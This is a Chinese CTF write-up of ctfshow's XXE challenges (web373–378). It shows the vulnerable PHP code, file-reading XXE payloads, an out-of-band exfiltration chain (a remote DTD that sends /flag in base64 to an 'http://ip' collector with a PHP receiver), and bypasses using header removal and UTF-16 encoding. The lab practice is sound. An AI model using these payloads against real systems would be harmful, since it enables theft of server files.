 ## ctfshow_xxe（xml外部实体注入漏洞）



### web373

```php
<?php
error_reporting(0);
libxml_disable_entity_loader(false); //允许载入外部实体
$xmlfile = file_get_contents('php://input');
if(isset($xmlfile)){
    $dom = new DOMDocument(); //创建一个dom对象
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); //解析一个 XML 标签字符串来组成该文档
    $creds = simplexml_import_dom($dom); //把 DOM 节点转换为 SimpleXMLElement 对象。
    $ctfshow = $creds->ctfshow; //引用ctfshow标签
    echo $ctfshow; //输出 ctfshow 标签的内容，节点嵌套
}
highlight_file(__FILE__); 
```

经过分析，该题为有回显的 xxe

payload:

```xml-dtd
[POST]Payload:

<?xml version="1.0"?>
<!DOCTYPE payload [
<!ELEMENT payload ANY>
<!ENTITY xxe SYSTEM "file:///flag">  //定义一个外部实体xxe
]>
<creds>
<ctfshow>&xxe;</ctfshow>
</creds>
```



### web374

无回显xxe

```php
<?php
error_reporting(0);
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');
if(isset($xmlfile)){
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
}
highlight_file(__FILE__); 
```

我们只能将获得的数据通过服务器外带了。

我们需要使用 `参数实体` 

payload:

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE ctfshow [
	<!ENTITY % remote SYSTEM "http://ip/data.dtd">
	%remote;
]>
<demo>123</demo>
```

data.dtd

```xml-dtd
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/flag">
<!ENTITY % int "<!ENTITY &#x25; send SYSTEM 'http://ip/1.php?p=%file;'>"> //只能在dtd文件中引用实体
%int;
%send;
```

1.php

```php
<?php
    $data = base64_decode($_GET['p']);
    file_put_contents('flag.txt',$data);
```

首先通过在 payload内部定义dtd的地方调用参数实体 `%remote;` 然后就会相当于文件包含，将 `data.dtd` 内容包含进来，接着调用 `%int;` 此时会引入一个实体，由于其中存在 `%file;` 自动调用了该实体，并将值填入该位置，然后调用 `%send;` 向相应文件`1.php` 发送http请求，把flag保存在txt文件中

`&#x25; 是 % 为了避免冲突`





### web375-376

过滤了文档定义头： `preg_match('/<\?xml version="1\.0"/', $xmlfile)`

我们可以直接去掉xml文档头:

payload:

```xml-dtd
<!DOCTYPE ctfshow [
	<!ENTITY % remote SYSTEM "http://ip/data.dtd">
	%remote;
]>
<demo>123</demo>
```



### web377

又把http过滤掉了，但是xml支持 UTF-16编码，我们可以将 xml编码为utf-16，这样就绕过了过滤：

我们使用python脚本发送post请求：

```python
import requests

url = "http://9e8dfeb6-7cd8-4664-a58d-784a97a422bd.challenge.ctf.show/"
xml = """
<!DOCTYPE ctfshow [
	<!ENTITY % remote SYSTEM "http://ip/data.dtd">
	%remote;
]>
<demo>123</demo>
"""
xml = xml.encode("utf-16")
r = requests.post(url=url, data=xml)
```



### web378

最基本的回显xxe，直接外部实体引用即可











